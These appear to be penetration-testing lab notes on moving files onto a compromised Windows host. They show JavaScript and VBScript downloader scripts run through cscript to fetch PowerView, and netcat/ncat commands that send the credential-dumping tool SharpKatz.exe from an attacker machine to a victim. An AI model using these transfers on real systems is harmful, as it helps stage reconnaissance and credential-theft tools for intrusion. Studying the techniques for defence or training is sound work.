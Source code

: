 ### JavaScript
Based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/536400#536400) post, you could make `wget.js` file:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
And then we can use following command from Windows CMD or PowerShell to execute our code:
```powershell
C:\carnifex17> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
### VBScript
**VBScript** or ("Microsoft Visual Basic Scription Edition") is Microsoft scripting language that is modeled on Visual Basic. You could make wget.vbs file to download a file:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
- **Download a File using VBScript and cscript.exe**
```powershell
C:\carnifex17> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
## Miscellaneous File Transfer Methods
### File Transfer with Netcat and Ncat
3. **Netcat - Attack Host - Sending File to Compromised machine**. The option `-q 0` gonna close connection after transferring. 
```bash
# Using original netcat
victim$ nc -l -p 8000 > SharpKatz.exe
```
```bash
attacker$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
4. **Ncat - Attack Host - Sending File to Compromised machine**
```bash
# Using Ncat
victim$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
```bash
attacker$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
5. **Sending File as Input to Netcat**
```bash
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
```bash
victim$ nc 192.168.49.128 443 > SharpKatz.exe
```